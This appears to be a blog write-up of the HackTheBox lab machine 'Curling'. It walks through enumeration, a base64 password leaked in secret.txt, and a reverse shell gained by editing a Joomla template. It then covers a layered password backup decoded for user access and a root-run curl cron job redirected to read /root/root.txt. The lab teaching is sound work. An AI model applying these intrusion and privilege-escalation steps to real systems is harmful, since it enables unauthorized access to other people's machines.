 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Curling
- Description:  Curling is an Easy difficulty Linux box which requires a fair amount of enumeration. The password is saved in a file on the web root. The username can be download through a post on the CMS which allows a login. Modifying the php template gives a shell. Finding a hex dump and reversing it gives a user shell. On enumerating running processes a cron is discovered which can be exploited for root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

visiting the webpage I see the following:

![](assets/images/2024-01-19-curling-image-1.png)
This gives me the hint to cewl the site, while I do that I'll also dirsearch in the background.

I see that there is a file called secret.txt:

![](assets/images/2024-01-19-curling-image-2.png)

So I navigate to that page:
![](assets/images/2024-01-19-curling-image-3.png)

looks like base64 so I'll decode it:

![](assets/images/2024-01-19-curling-image-4.png)

from there I will attempt to login, on the main page I see the user name is floris.

Login successful:
![](assets/images/2024-01-19-curling-image-5.png)

Now I have a bunch of options as to what I can do to execute code but the easiest is to embed code into the index.php of the main page template and refresh:

![](assets/images/2024-01-19-curling-image-6.png)

Now I refresh the page and get a shell:
```bash
HTB nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.150] 50932
bash: cannot set terminal process group (1328): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$
```

## Privilege Escalation

Initial enum didn't yield anything, so I looked towards floris's home directory and found a `password_backup` file, it had some levels to it VERY CTFy very boring and unreastic:
```bash
www-data@curling:/tmp$ xxd -r password_backup > file
www-data@curling:/tmp$ file file
file: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv file file.bz
www-data@curling:/tmp$ bzip2 -d file.bz 
www-data@curling:/tmp$ ls
file  password_backup
www-data@curling:/tmp$ file file 
file: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ mv file file.gz
www-data@curling:/tmp$ gunzip -d file.gz 
www-data@curling:/tmp$ ls  
file  password_backup
www-data@curling:/tmp$ file file
file: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv file file.bz
www-data@curling:/tmp$ bzip2 -d file.bz 
www-data@curling:/tmp$ ls
file  password_backup
www-data@curling:/tmp$ file file
file: POSIX tar archive (GNU)
www-data@curling:/tmp$ mv file file.tar
www-data@curling:/tmp$ tar -xvf file.tar 
password.txt
www-data@curling:/tmp$ cat password.txt
5d<wdCbdZu)|hChXll
```

Now I can su into floris:
```bash
www-data@curling:/tmp$ su floris
Password:
floris@curling:/tmp$
```

I see this directory called `admin-area` and it's interesting:
```bash
floris@curling:~/admin-area$ ls
input  report
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 Aug  2  2022 .
drwxr-xr-x 6 floris floris  4096 Aug  2  2022 ..
-rw-rw---- 1 root   floris    25 Jan 19 22:49 input
-rw-rw---- 1 root   floris 14238 Jan 19 22:49 report
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

The input file is just a url, and the report is the file, what seems to be curled. 

I will confirm this theory with pspy64

```bash
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

Every minute the command above is executed, it curls the command then outputs it in the report. I'll replace it with the following:

```bash
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
```

I wait for a bit and check the file:

```bash
floris@curling:~/admin-area$ cat report 
aeb6c2cb3c1f80e031d5fd2ea9fab3f7
```

best,
gerbsec